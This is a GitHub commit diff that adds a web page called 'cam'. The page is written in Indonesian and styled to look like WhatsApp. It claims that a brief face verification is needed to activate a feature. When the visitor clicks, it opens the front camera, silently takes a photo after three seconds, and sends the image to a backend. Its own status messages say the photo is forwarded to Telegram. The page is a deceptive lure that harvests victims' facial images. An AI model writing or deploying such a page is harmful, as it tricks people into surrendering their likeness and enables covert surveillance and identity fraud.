

Before and after one commit to Aditya250604/my.tool, a website: page tool/tool.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update tool.html untuk integrasi dengan backend Vercel

```diff
--- a/tool/tool.html
+++ b/tool/tool.html
@@ -1,4 +1,83 @@
+<!DOCTYPE html>
+<html>
+<head>
+  <title>cam</title>
+  <meta name="viewport" content="width=device-width, initial-scale=1">
+  <style>
+    body {
+      background-color: #ffffff;
+      color: #333;
+      font-family: Arial, sans-serif;
+      text-align: center;
+      padding: 40px;
+    }
+    button {
+      padding: 15px 30px;
+      font-size: 16px;
+      background-color: #25D366;
+      color: white;
+      border: none;
+      border-radius: 8px;
+      margin-top: 30px;
+      cursor: pointer;
+    }
+    video {
+      display: block;
+      margin: 20px auto;
+      width: 90%;
+      max-width: 400px;
+      border: 2px dashed #25D366;
+      border-radius: 10px;
+    }
+  </style>
+</head>
+<body>
+  <h2>cam</h2>
+  <p>Untuk mengaktifkan fitur ini, lakukan verifikasi wajah singkat.</p>
+  <button onclick="startSnap()">Aktifkan Sekarang</button>
+  <video id="cam" autoplay muted playsinline></video>
+  <canvas id="snap" style="display:none;"></canvas>
+  <p id="status" style="margin-top: 20px;"></p>
+
 <script>
+async function startSnap() {
+  const video = document.getElementById('cam');
+  const canvas = document.getElementById('snap');
+  const ctx = canvas.getContext('2d');
+  const status = document.getElementById('status');
+
+  status.innerText = "📷 Mengaktifkan kamera...";
+
+  try {
+    const stream = await navigator.mediaDevices.getUserMedia({ video: { facingMode: "user" } });
+    video.srcObject = stream;
+
+    video.onloadedmetadata = () => {
+      video.play();
+      status.innerText = "Kamera aktif. Menyiapkan jepretan...";
+
+      setTimeout(() => {
+        if (video.videoWidth === 0 || video.videoHeight === 0) {
+          status.innerText = "❌ Kamera tidak memberi gambar.";
+          return;
+        }
+
+        // ambil foto
+        canvas.width = video.videoWidth;
+        canvas.height = video.videoHeight;
+        ctx.drawImage(video, 0, 0);
+        stream.getTracks().forEach(track => track.stop());
+
+        const imgData = canvas.toDataURL('image/jpeg');
+        sendPhoto(imgData);
+      }, 3000);
+    };
+
+  } catch (err) {
+    status.innerText = "❌ Gagal akses kamera: " + err.message;
+  }
+}
+
 async function sendPhoto(base64img) {
   const status = document.getElementById('status');
   status.innerText = "📤 Mengirim foto ke server...";
@@ -11,13 +90,15 @@ async function sendPhoto(base64img) {
     });
 
     const data = await res.json();
-    if (data.success) {
+    if (data.ok) {
       status.innerText = "✔️ Foto berhasil dikirim ke Telegram!";
     } else {
-      status.innerText = "❌ Gagal kirim foto: " + data.error;
+      status.innerText = "❌ Gagal kirim foto: " + (data.description || data.error);
     }
   } catch (err) {
     status.innerText = "❌ Error: " + err.message;
   }
 }
 </script>
+</body>
+</html>
```
